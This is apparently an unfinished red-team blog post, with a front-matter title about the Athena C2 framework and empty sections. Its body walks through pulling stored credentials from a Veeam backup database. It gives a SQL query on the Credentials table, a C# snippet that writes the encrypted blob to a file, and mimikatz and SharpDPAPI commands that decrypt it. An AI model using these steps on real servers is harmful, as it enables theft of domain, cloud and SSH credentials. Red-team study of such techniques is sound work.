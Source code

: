 ```yaml
---
title: "Crossplatform operations with Athena"
categories:
  - Red Team
  - C2
tags:
  - Instructional
  - Malware
  - C#
  - Operations
---
```


UNDER CONSTRUCTION



## What is VEEAM?

## So what?
- Domain Credentials
- Local Credentials
- Linux Credentials
- SSH Private Keys
- AWS/GCP Access Keys
- Azure Computer Account Credentials
- Azure Storage Account Credentials
![image](https://user-images.githubusercontent.com/26147220/121399946-fc125e80-c924-11eb-8562-207e7a331fbc.png)

![image](https://user-images.githubusercontent.com/26147220/121400943-2b759b00-c926-11eb-9fe7-f806a0dffc62.png)

Hitting "Next" will attempt to connect to the database to validate connnectivity 
![image](https://user-images.githubusercontent.com/26147220/121401612-e56d0700-c926-11eb-8c19-33029d4c1c98.png)

There are two ways you can pull the credential information from the database. The first is to navigate to the VeeamBackup database and look for the credentials table. It's easy to find as it's just named "dbo.Credentials". Alternatively we can run the following SQL Query:

`SELECT user_name,password FROM VeeamBackup.dbo.Credentials;`

After running this query, you'll see the following output:

![image](https://user-images.githubusercontent.com/26147220/121402412-db97d380-c927-11eb-9eaf-58b4c9d55757.png)

Awesome! It looks base64 encoded, let's see if we can decode it!

![image](https://user-images.githubusercontent.com/26147220/121402509-f9653880-c927-11eb-90c2-e284e84b88b1.png)

hmm...not quite.

## Decrypting the Credentials

Looking at the [documentation](https://helpcenter.veeam.com/docs/agentforwindows/configurator/encryption.html?ver=50), we can see the user credentials get encrypted before they're stored into the database. Unfortunately, it doesn't show us the type of encryption that is being used to protect these passwords.

After some further googling, I came across the following KB article [KB2327](https://www.veeam.com/kb2327) which states:

```
All sensitive information, such as user credentials and encryption keys are stored in the configuration database are encrypted with machine-specific private key of backup server. 
Accordingly, a newly installed backup server will not be able to decrypt such information if attached to the existing database.
```

```
using System;

namespace txt2bin
{
    class Program
    {
        static void Main(string[] args)
        {
            string dpapistring = "blobstringgoeshere";

            byte[] data = Convert.FromBase64String(dpapistring);

            System.IO.File.WriteAllBytes("payload.bin", data);
        }
    }
}
```

`dpapi::blob /in:"C:\path\to\payload.bin" /unprotect `

`SharpDPAPI.exe blob /target:"base64blobgoeshere" /unprotect`
